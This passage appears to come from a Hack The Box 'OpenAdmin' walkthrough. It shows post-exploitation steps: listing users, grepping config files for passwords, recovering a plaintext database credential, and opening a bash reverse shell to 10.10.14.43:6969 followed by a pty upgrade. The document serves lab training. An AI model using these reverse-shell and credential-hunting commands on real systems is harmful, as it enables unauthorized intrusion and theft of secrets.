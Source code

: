 
anyhow, let `ls` and find more juicy info that might help us to next stage...
```console
$ ls /home 
jimmy
joanna
```
2 user and ofc we dont have premission to view `ls` thier direcotory. I used `ls` to gather more info but I can find any good. Now when I think about the open port, remember that port 22 is open! let find some keys
```
$ locate *.pub   
/etc/ssh/ssh_host_dsa_key.pub
/etc/ssh/ssh_host_ecdsa_key.pub
/etc/ssh/ssh_host_ed25519_key.pub
/etc/ssh/ssh_host_rsa_key.pub
```
I viewed the key but it belong to root@openadmin which will not work... after google a bit, I saw a hint in HTB forum that I should look for `password`
```console
$ grep -r 'passwd' ./*
./include/functions_db.inc.php:        $ona_contexts[$context_name]['databases']['0']['db_passwd']   = $db_context[$type] [$context_name] ['primary'] ['db_passwd'];
./include/functions_db.inc.php:        $ona_contexts[$context_name]['databases']['1']['db_passwd']   = $db_context[$type] [$context_name] ['secondary'] ['db_passwd'];
./include/functions_db.inc.php:            $ok1 = $object->PConnect($self['db_host'], $self['db_login'], $db['db_passwd'], $self['db_database']);
./local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!',
```
we got a hit!! let view the file
```console
$ cat ./local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
# foothold as Jimmy
we got a cerdential `ona_sys:n1nj4W4rri0R!` so it is a mysqli cerdential?
```console
$ mysql -u ona_sys -p n1nj4W4rri0R!
$ which bash
/bin/bash
$ bash -i >& /dev/tcp/10.10.14.43/6969 0>&1
$ /bin/bash -i >& /dev/tcp/10.10.14.43/6969 0>&1
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```